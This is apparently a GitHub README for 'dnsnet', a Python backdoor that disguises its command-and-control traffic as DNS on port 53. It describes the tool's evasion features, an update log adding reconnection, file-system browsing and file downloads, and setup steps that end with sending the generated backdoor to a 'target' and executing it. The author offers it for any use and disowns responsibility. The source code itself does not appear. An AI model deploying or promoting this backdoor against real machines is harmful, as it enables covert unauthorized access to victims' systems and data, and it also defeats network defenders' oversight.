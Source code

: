 # dnsnet


# Current Version: ReleaseV2

![box](https://user-images.githubusercontent.com/72181445/155982020-2db1333f-74b7-4c3f-8178-f14a75a0a65d.png)

# Description:
DNSNET masks itself as DNS traffic by communicating through the port 53. On top of it making the traffic less easy to spot, 
it will make dealing with the backdoor alot harder since a company of course cannot block the port and good luck figuring 
out which one of the 999999999 programs that also use the 53 port is the right one. The traffic is also encrypted so that's nice I guess.

# Disclaimer:
Im not responsible for any damage or harm done by this program in the hands of other people.

# Where is this used?:
I originally started coding this because I wanted a sure way to stealth backdoor victim machine during a red team/pen test assesments however
you can use it however you want (I'm not responsible for your actions).

# Update log:
Alpha: 10 times encryption and stabile server end

AlphaV2: Automatic reconnect if connection is lost and manual reset added by pressing ctrl + c on the server end, cryptography import problems solved

BetaV1: Backdoor now remembers where you cd'ed to allowing much better file system exploring, overall small fixes to make the backdoor more stable and usable

ReleaseV1: Complete redesign, coded from the ground up

ReleaseV2: File transfers added (download only)

# In development?: yes

# How to use (REPLACE "Listener ip" with the c2 ip):
```
git clone https://github.com/SpoofIMEI/dnsnet
cd dnsnet
pip3 install -r requirements.txt
python3 dnsnet.py --li Listener ip
```
then send the generated backdoor file to the target and execute it.

# Technical Details:
Encryption: Fernet 32bit encryption (that times the keys)
Program: Python3
  

